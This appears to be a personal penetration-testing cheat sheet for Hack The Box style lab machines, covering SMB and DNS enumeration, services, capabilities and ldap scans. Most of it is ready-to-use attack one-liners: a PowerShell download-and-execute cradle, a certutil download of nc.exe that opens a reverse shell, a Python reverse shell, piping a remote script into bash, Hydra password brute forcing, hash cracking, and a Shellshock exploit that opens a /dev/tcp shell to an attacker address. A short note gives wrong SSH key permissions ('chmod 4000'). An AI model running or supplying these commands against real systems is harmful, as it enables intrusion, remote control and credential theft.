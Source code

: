 # Windows

## Smb shares enumerate

`smbclient -L 10.10.10.134 -U " "%" " `

## Hidden streams

* List files with streams: `dir \R`
* Read a stream from command line: `more < FileName:StreamName`

## List services

`wmic service where started=true get name, startname`

## Powershell reverse

`IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')`

## Download nc and reverse shell

```
cmd.exe /C net use /D /Y * && cmd.exe /C certutil.exe -urlcache -split -f 'http://10.10.16.65/nc.exe' C:\Users\Public\nc.exe & C:\Users\Public\nc.exe 10.10.16.65 1234 -e powershell.exe
```

# Linux

## DNS zone transfer

`dig axfr @10.10.10.52 matis.htb`

## FTP download files 

`wget -r --no-passive ftp://10.10.10.106`

## Reverse shells

* socat file:\`tty\`,echo=0,raw udp-listen:4444
* `import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.16.28\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])`

## Get remote script and execute

`bash <(curl -s http://mywebsite.com/myscript.txt)`

## Find exclude specific words

`find / -type f -name "filename" 2>&1 | grep -v "Permission denied`

## Check capacity

`getcap -r / 2>/dev/null`

## ssh

### 使用 private key 登录

![AxtqoR.png](https://s2.ax1x.com/2019/04/16/AxtqoR.png)

修改 private key 权限，`chmod 4000`

## Tools

### Hydra

#### Brute force login form http

```
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -Vv -f
 ```
 
 #### Brute force login form https
 
 ```
 hydra 10.10.10.43 -l whatever -P /opt/SecLists/Passwords/darkweb2017-top10000.txt https-post-form "/db/:password=^PASS^&remember=yes&login=log+in&proc_login=true:Incorrect password." -Vv -s 443
 ```

### John

#### 7z

```
/opt/john/run/7z2john.pl backup.7z > backup.hash
hashcat -m 11600 -a 0 -o backup.cracked backup.hash /usr/share/wordlists/rockyou.txt --force
```

### Nmap 

#### ldap

`nmap -p 389 --script ldap-search 10.10.10.119`

## network

### Test icmp

`tcpdump -i tun0 icmp`

## Exploits

### Shellshock

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.15.98/7777 0>&1 " http://10.10.10.56:80/cgi-bin/user.sh
```
